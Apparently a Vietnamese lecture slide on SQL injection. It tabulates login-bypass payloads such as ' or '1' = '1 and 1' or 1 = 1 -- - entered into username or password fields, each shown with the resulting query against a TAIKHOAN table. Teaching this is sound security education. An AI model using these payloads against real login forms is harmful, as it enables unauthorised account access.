

1. Tấn công vượt qua kiểm tra đăng nhập (username/password)

Một số trường hợp khác đăng nhập vẫn thành công được:
| Username | Password | Câu lệnh SQL |
| --- | --- | --- |
| Nhập ký tự bất kỳ | ' or '1' = '1 | Select \* from TAIKHOAN where TenDangNhap = ''and MatKhau = '' or '1' = '1' |
| Nhập ký tự bất kỳ | ' or 1='1 | Select \* from TAIKHOAN where TenDangNhap = ''and MatKhau = '' or 1 = '1' |
| 1' or 1 = 1 -- - | Nhập ký tự bất kỳ | Select \* from TAIKHOAN where TenDangNhap = '1' or 1 = 1 -- -'and MatKhau = '' |
| Nhập ký tự bất kỳ | 1' or 1 = 1 -- - | Select \* from TAIKHOAN where TenDangNhap = '' and MatKhau = '1' or 1 = 1 -- -' |